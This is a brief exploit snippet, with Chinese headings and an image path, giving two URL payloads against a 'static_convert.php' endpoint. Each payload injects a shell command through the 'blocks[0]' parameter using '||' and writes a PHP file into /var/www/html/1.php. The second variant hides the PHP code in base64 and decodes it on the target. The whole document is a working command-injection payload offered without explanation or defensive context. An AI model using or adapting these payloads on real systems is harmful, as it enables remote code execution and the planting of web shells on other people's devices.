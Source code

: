 一句话

`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20%27%3C?php%20phpinfo();?%3E%27%20%3E%3E%20/var/www/html/1.php%0a`


Base64 版

`/view/IPV6/naborTable/static_convert.php?blocks[0]=||%20echo%20PD9waHAgcGhwaW5mbygpOz8+%20%7Cbase64%20-d%20%3E%3E%20/var/www/html/1.php%0a`
